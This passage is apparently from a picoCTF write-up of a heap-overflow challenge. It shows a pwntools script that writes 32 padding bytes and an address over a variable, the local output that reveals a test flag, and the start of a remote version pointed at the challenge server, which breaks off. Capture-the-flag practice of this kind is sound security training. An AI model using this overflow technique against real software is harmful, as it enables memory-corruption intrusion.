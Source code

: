 So we need 32 signs to reach the variable `x`.

To input the address and the correct payload I used pwn-tools:
```python
#!/usr/bin/env python3

from pwn import *

payload = b"A"*32 + p64(0x4011a0, endian="little")
print(payload)

context.binary = binary = ELF("./chall")
p = process()
print(p.recvuntil(b"Enter your choice: "))
p.sendline("2")
print(p.recvuntil(b"Data for buffer: "))
p.sendline(payload)
p.sendline("4")
print(p.recvuntil(b"Enter your choice: "))
print(p.recv())
```
Keep in mind that the address has to be in 64-bit little endian format. Also we have to send the input for the right program options to the process.

If we do so we can successful get the flag:
```
$ python pwnage.py
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11@\x00\x00\x00\x00\x00'
[*] '/tmp/pico/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/tmp/pico/chall': pid 27966
b'\nI have a function, I sometimes like to call it, maybe you should change it\n\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. Exit\n\nEnter your choice: '
/tmp/pico/pwnage.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline("2")
b'Data for buffer: '
/tmp/pico/pwnage.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline("4")
b'\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. Exit\n\nEnter your choice: '
b'picoCTF{testflag}\n\n'
[*] Process '/tmp/pico/chall' stopped with exit code 0 (pid 27966)
$
```

Now we just have to adjust the script for the remote application:
```python
#!/usr/bin/env python3

from pwn import *

payload = b"A"*32 + p64(0x4011a0, endian="little")
host, port = "mimas.picoctf.net", 58213

print(payload)

#context.binary = binary = ELF("./chall")
#p = process()
p = remote(host, port)
print(p.recvuntil(b"Enter your choice: "))
p.sendline("2")
```